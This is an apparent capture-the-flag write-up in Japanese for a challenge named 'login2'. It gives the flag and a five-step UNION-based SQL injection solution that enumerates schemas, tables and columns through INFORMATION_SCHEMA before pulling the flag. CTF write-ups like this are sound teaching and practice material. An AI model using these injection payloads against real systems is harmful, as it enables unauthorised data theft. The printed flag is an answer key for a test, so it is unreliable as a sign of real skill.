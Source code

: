 ```yaml
---
title: login2
level: hard
flag: FLAG{U2on_591inJEcTioN2}
writer: iwat
---
```


# login2

## 問題文
The Road to SQL Master - Part2 -

## 解法

1. UNIONを用いてカラム数を特定する。エラー
が出ない場合にカラム数が特定できたと判断する。<br>
`' UNION SELECT 1;#`<br>

2.DB名を特定する<br>
`' UNION SELECT  GROUP_CONCAT(DISTINCT TABLE_SCHEMA) FROM INFORMATION_SCHEMA.TABLES;#` <br>

3.特定したDB名を用いて、テーブル名を特定する<br>
`' UNION SELECT  GROUP_CONCAT(DISTINCT TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'login2';#` <br>

4.カラム名を特定する<br>
`' UNION SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 's3cret';# `<br>

5.UNIONを用いてs3cretテーブルからFLAGを取得する<br>
`' UNION SELECT fl4g from s3cret;# `